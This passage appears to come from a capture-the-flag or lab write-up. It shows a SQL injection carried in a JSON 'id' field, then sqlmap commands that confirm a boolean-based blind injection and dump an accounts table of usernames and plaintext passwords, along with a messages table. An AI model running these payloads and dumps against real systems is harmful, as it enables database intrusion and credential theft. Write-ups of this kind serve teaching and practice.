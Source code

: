 ```
    {
      "name": "token",
      "value": "eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJ1c2VyX2lkIjoiYmxua24iLCJleHAiOjE2ODQ3MTA4MDN9.MSlBzmJYp13-PV_H3P20WyO5ponKssSVQON1razjAJk"
    }
  ],
  "data": [
    {
      "id": "112 or 1=1"
    }
  ]
}
```

Pointing sqlmap to the things we already established, to speed up the process
```bash
sqlmap -r getinfo.req --dbms sqlite --technique=B --level 5 --risk 3 -t5 -T accounts --batch
SNIP
sqlmap identified the following injection point(s) with a total of 1256 HTTP(s) requests:
---
Parameter: JSON id ((custom) POST)
    Type: boolean-based blind
    Title: OR boolean-based blind - WHERE or HAVING clause
    Payload: {"metadata":[{"name":"token","value":"eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJ1c2VyX2lkIjoiYmxua24iLCJleHAiOjE2ODQ3MTA4MDN9.MSlBzmJYp13-PV_H3P20WyO5ponKssSVQON1razjAJk"}],"data":[{"id":"-5513 OR 6714=6714"}]}
---
```

```bash
sqlmap -r getinfo.req --dbms sqlite --technique=B --level 5 --risk 3 -t5 -T accounts --batch --dump
Database: <current>
Table: accounts
[3 entries]
+------------------------+----------+
| password               | username |
+------------------------+----------+
| admin                  | admin    |
| HereIsYourPassWord1431 | sau      |
| schnitzel              | wiener   |
+------------------------+----------+
```

```bash
sqlmap -r getinfo.req --dbms sqlite --technique=B --level 5 --risk 3 -t 15 -T messages --batch --dump
Database: <current>
Table: messages
[2 entries]
+-----+----------------------------------------------+----------+
| id  | message                                      | username |
+-----+----------------------------------------------+----------+
| 1   | The admin is working hard to fix the issues. | admin    |
| 105 | Will update soon.                            | wiener   |
+-----+----------------------------------------------+----------+
```
